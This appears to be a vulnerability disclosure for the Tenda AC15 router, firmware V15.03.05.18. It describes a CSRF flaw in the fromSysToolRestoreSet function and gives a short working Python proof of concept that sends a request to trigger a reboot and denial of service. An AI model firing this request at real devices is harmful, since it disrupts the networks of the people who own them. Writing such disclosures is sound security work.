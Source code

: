 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 has a Cross Site Request Forgery (CSRF) vulnerability located in the `fromSysToolRestoreSet` function. It allows remote attackers to reboot the device and cause denial of service.

![image-20240308170456738](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308170456738.png)

![image-20240308170633794](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308170633794.png)

## PoC

```python
import requests

url = "http://192.168.84.101/goform/SysToolRestoreSet"

headers = {
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Cookie': 'bLanguage=cn; user=; password=yhryhr',
    'Connection': 'close'
}

response = requests.get(url, headers=headers)
print(response.text)
```

![image-20240314230504772](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314230504772.png)